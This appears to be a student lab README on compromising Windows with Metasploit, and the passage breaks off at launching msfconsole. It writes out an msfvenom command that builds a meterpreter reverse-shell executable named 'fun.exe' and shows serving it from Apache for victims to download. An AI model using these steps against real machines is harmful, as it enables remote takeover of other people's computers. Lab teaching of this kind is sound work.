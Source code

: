 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

### OUTPUT:

<img width="576" alt="image" src="https://github.com/user-attachments/assets/c06b56b4-a982-40a1-9e7f-7c044328aa84">

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.29.175 -f exe > fun.exe

<img width="713" alt="image" src="https://github.com/user-attachments/assets/1686c359-94b9-4c61-a93a-df218cdedef9">

copy the fun.exe into the apache /var/www/html folder 

<img width="343" alt="image" src="https://github.com/user-attachments/assets/51ce9b94-49e1-4733-9c4a-3c444bfd0a67">

Start apache server sudo systemctl apache2 start

<img width="359" alt="image" src="https://github.com/user-attachments/assets/bfb3314a-07c3-4406-a31d-f70c0c25abdb">

Check the status of apache2

<img width="874" alt="image" src="https://github.com/user-attachments/assets/040700eb-7642-4493-a10b-d86426b48140">

Invoke msfconsole:
